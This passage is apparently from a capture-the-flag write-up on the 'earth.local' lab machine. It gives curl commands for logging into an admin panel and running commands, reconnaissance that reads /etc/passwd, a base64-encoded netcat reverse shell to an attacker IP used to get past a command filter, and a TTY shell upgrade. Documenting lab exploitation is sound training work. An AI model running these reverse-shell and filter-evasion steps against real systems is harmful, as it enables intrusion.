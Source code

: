 #### Technical Details

**Access Method:**
```bash
# Admin panel authentication
curl -X POST http://earth.local/admin/login \
  -d "username=terra&password=earthclimatechangebad4humans" \
  -c cookies.txt

# Command execution endpoint
curl -X POST http://earth.local/admin/execute \
  -b cookies.txt \
  -d "command=whoami"
```

**Identified Vulnerabilities:**
- No input sanitization
- Direct system command execution
- Insufficient access controls
- No command whitelisting

#### Exploitation

**Initial Command Execution:**
```bash
# System reconnaissance
whoami                    # Output: apache
id                       # Output: uid=48(apache) gid=48(apache)
uname -a                 # System information
cat /etc/passwd          # User enumeration
```

**Reverse Shell Establishment:**

Due to filtering mechanisms, direct reverse shell commands were blocked. The following Base64 encoding technique bypassed restrictions:

```bash
# On attacker machine
nc -lvnp 4444

# Generate Base64 payload
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
# Output: bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==

# Execute via admin panel
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
```

**Shell Upgrade:**
```bash
# Spawn TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Set environment
export TERM=xterm
export SHELL=/bin/bash
```

